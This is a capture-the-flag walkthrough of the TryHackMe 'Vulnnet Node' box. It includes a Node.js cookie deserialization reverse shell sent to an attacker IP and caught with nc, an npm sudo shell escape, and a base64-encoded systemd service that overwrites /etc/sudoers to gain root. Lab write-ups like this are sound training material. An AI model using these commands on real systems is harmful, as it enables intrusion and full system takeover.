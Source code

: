 In this walkthrough, we'll go over a challenge (intermediate) level box called ***Vulnnet Node*** on [TryHackMe](https://tryhackme.com/room/vulnnetnode) 

![Vulnnet-Node](vulnnetNode.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.203.200 --open
```
Per the nmap result, it looks like the only port open is 8080:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 17:10 EDT
Nmap scan report for 10.10.203.200
Host is up (0.21s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.10 seconds
```
When we visit the website, we see a bunch of feeds:
![Vulnnet Node index](vN-index-html.png)

We can run dirsearch `dirsearch -u http://10.10.203.200:8080 -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt --plain-text-report=vulnnetNode-dirsearch.txt`:
![Vulnnet Node dirsearch](vN-dirsearch.png)

If we perform further inspection, we can see that the GET request provided a cookie:
![Vulnnet Node cookie](vN-cookie.png)

Once we put the cookie string into the decoder we get the below data:
![Vulnnet Node decode cookie](vN-cookie-decoding.png)

We can then use the following GitHub https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py to download the Python file and generate the below reverse shell payload:
`python nodejsshell.py 10.13.6.172 5555`
![Vulnnet Node payload](vN-reverse-shell-payload.png)

We then encode it with base 64 in the Burp decoder:
![Vulnnet Node decode](vN-encode-payload.png)

We start a nc listener and paste the encoded payload into the cookie section in the repeater and then send it:
![Vulnnet Node send payload](vN-send-payload.png)

We are able to receive a shell back:

![Vulnnet Node shell](vN-initial-foothold.png)

Upon running `sudo -l`, we can see that serv-manage cound run "/usr/bin/npm":
![Vulnnet Node sudo -l](vN-www-sudo-l.png)

At this point, we can follow the instructions from GTFObin https://gtfobins.github.io/gtfobins/npm/#sudo
```bash
www@vulnnet-node:~/VulnNet-Node/node_modules$ TF=$(mktemp -d)
TF=$(mktemp -d)
www@vulnnet-node:~/VulnNet-Node/node_modules$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
www@vulnnet-node:~/VulnNet-Node/node_modules$ chmod 777 $TF
chmod 777 $TF
www@vulnnet-node:~/VulnNet-Node/node_modules$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```
![Vulnnet Node GTFObin](vN-serv-manage.png)

After becoming serv-manage, we can run again `sudo -l`:
![Vulnnet Node serv-manage](vN-serv-manage-sudo-l.png)

A closer look to vulnnet-auto.timer reveals that the timer and vulnnet-job.service need to be changed:
![Vulnnet Node autotime](vN-auto-timer.png)
![Vulnnet Node service](vN-job-service.png)

Since we can't directly change the contents of the files, we could to use https://www.base64encode.org/ and put the below into the converter:
```bash
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```

![Vulnnet Node encode payload](vN-encode-payload 1.png)

We could then use the following to edit "/etc/systemd/system/vulnnet-job.service"
```bash
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPUxvZ3Mgc3lzdGVtIHN0YXRpc3RpY3MgdG8gdGhlIHN5c3RlbWQgam91cm5hbApXYW50cz12dWxubmV0LWF1dG8udGltZXIKCltTZXJ2aWNlXQojIEdhdGhlciBzeXN0ZW0gc3RhdGlzdGljcwpUeXBlPWZvcmtpbmcKRXhlY1N0YXJ0PS9iaW4vc2ggLWMgJ2VjaG8gInNlcnYtbWFuYWdlIEFMTD0ocm9vdCkgTk9QQVNTV0Q6IEFMTCIgPiAvZXRjL3N1ZG9lcnMnCgpbSW5zdGFsbF0KV2FudGVkQnk9bXVsdGktdXNlci50YXJnZXQ=' | base64 -d > /etc/systemd/system/vulnnet-job.service
```

We then run each command:

![Vulnnet Node payload execute](vN-payload-executed.png)
![Vulnnet Node root](vN-root-txt.png)

This is one of the machines that has a lot of steps to get a root shell.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
